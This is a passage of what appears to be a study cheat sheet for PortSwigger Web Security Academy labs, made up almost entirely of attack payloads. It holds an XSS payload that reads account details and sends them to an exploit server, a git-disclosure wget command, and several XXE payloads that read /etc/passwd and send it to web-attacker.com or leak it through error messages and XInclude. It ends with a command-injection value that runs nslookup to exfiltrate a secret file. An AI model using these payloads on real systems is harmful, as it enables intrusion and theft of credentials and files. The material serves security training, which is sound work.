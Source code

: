 ```
location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
2. Git disclosure  
```
wget -r https://YOUR-LAB-ID.web-security-academy.net/.git/
git-cola --repo <url>
```
Then to restore previous commits
```
git log
git checkout <commit hash>
```
## XXE
The main tip is to scan the whole (not targeted!) request to, usually, /product/stock check  
### Exploits
1. Blind XXE with out-of-band interaction via XML parameter entities  
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```
2. Exploiting blind XXE to exfiltrate data using a malicious external DTD  
Observe Submit feedback, paste xml file with the next content:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Check /product/stock page and paste the next XXE payload:
```
<!DOCTYPE stockcheck [<!ENTITY % io7ju SYSTEM "http://localhost:44901/feedback/screenshots/7.xml">%io7ju; ]>
```
3. Exploiting blind XXE to retrieve data via error messages  
Observe Submit feedback, paste xml file with the next content:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
Check /product/stock page and paste the next XXE payload:
```
<?xml version="1.0" encoding="UTF-8" standalone='no'?><!DOCTYPE stockcheck [<!ENTITY % io7ju SYSTEM "http://localhost:41717/feedback/screenshots/1.xml">%io7ju; ]>
```
This will referrer to localhost with our previously created file and get content of /etc/passwd via error message.
4. Exploiting XInclude to retrieve files  
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
5. Admin user import via XML  
```
<?xml version="1.0" encoding="UTF-8"?>
<users>
    <user>
        <username>Example1</username>
        <email>example1@domain.com&`nslookup -q=cname $(cat /home/carlos/secret).burp.oastify.com`</email>
    </user>
```